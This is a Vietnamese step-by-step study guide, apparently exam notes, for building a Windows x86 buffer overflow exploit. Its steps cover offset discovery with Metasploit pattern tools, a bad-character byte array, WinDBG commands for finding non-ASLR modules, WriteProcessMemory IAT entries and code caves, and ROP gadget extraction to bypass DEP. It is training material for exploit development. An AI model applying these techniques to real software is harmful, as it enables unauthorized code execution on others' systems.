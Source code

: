 # Bài 1:

## B1: Xác nhận code POC overflow
```
Chỉ cần chạy thử và không cần phải chụp
```

## B2: Tìm điểm overflow (offset) 
```
# Chụp lại các bước

# Tạo ra pattern duy nhất để tìm điểm overflow 
msf-pattern_create -l 800

# Tìm điểm offset sau khi xác định overflow
msf-pattern_offset -l 800 -q <Giá trị EIP>
VD: msf-pattern_offset -l 800 -q 42306142
```

## B3: Tìm bad characters (ghi lại)
```
# Mẫu badchars của python (Copy vào trong code). Chụp sơ bộ không cần chi tiết.
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

## B4: Tìm module có thể khai thác được (module không có ASLR) 
```
# Sử dụng narly để xem các modules và cơ chế bảo mật của chúng
# Trong WinDBG của máy Debug sử dụng các lệnh và chụp lại:

.load narly 

!nmod

# Khi đó tìm module nào không có *ASLR (Khi thi chỉ có đúng 1 cái)
```

## B5: Tìm API có thể khai thác được (Có thể là VirtualAlloc hoặc là WPM) 
### 5.1: Tìm API
```
# Dựa trên output của !nmod để lấy tên module
# Trong WinDBG của máy Debug sử dụng các lệnh và chụp lại:

# Tìm địa chỉ của Import Address Table

!dh <tên module> -f
VD: !dh KERNEL32 -f

# Khi đó để ý hàng Import Address Table Directory
# Cột thứ nhất là địa chỉ bắt đầu, cột thứ 2 là size (VD: 1234 [ 2c] )

dps <tên module>+1234 <tên module>+1234+2c
VD: dps KERNEL32+1234 KERNEL32+1234+2c

# Output sẽ là 1 list nơi lưu địa chỉ của các API mà module gọi đến. Tìm WriteProcessMemoryStub (Theo yêu cầu của đề bài)
# Ghi lại nơi lưu địa chỉ của API WriteProcessMemoryStub (Cột đầu tiên tương ứng với dòng)
```
### 5.2: Khi khai thác WriteProcessMemory thì cần phải tìm code cave (Một vùng bộ nhớ chứa bytes rỗng có quyền thực thi)
```
# Trong WinDBG của máy Debug sử dụng các lệnh và chụp lại:

!address
# VD output: 412000  413000  1000  MEM_IMAGE  MEM_COMMIT  PAGE_EXECUTE_READ      IMAGE      [KERNEL32; ........]

# Output của lệnh trên sẽ liệt kê tất cả vùng của các module.
# Chúng ta quan tâm đến các vùng trong module sẽ khai thác (Tên module thể hiện ở cột cuối).
# Trong module sẽ khai thác, để ý vùng có chữ PAGE_EXECUTE_READ.
# Lưu ý lại 2 cột đầu là địa chỉ bắt đầu và kết thúc của vùng.

s <Địa chỉ bắt đầu của vùng> <Địa chỉ kết thúc của vùng> 00000000
VD: s 412000 413000 00000000

# Lệnh trên dùng để tìm 1 vùng chứa bytes rỗng trong 1 khoảng chúng ta chỉ định (Vùng có PAGE_EXECUTE_READ đã tìm ở trên)
# Output của lệnh sẽ ra rất nhiều. Chụp 1 đoạn có rất nhiều số 0000000 là được.
# Có thể kiểm tra xem vùng nhớ có đủ size chứa shellcode không bằng lệnh: 

dd <Địa chỉ bắt đầu muốn ghi viết shellcode> + <Size shellcode (có thể là 300-400)>

# Nếu output trả về vẫn là 1 vùng chứa bytes rỗng (00000000) thì nghĩa là đủ size dùng được.
```

## B6: Tìm ROP gadgets để vượt qua DEP 
```
# Sử dụng rp-win-x86 để trích xuất ROP gadgets từ module cần khai thác
# Sử dụng narly trong WinDBG để tìm đường dẫn của module khai thác
.load narly
!nmod

# Đường dẫn là cột cuối cùng trong output của lệnh !nmod
# Trích xuất ROP chain bằng lệnh sau:
rp_win_x86.exe -f "<Đường dẫn đến moduled" -r 5 > rop.txt
```

## B7: Xây dựng stack dùng ROP gadget 
[Cách xây dựng ROP](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/H%C6%B0%E1%BB%9Bng%20d%E1%BA%ABn/X%C3%A2y%20d%E1%BB%B1ng%20ROP.MD)

## B8: Tạo shellcode thủ công
[Shellcode mẫu trong sách](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/shellcode_NO_CHANGE_PLEASE.py)
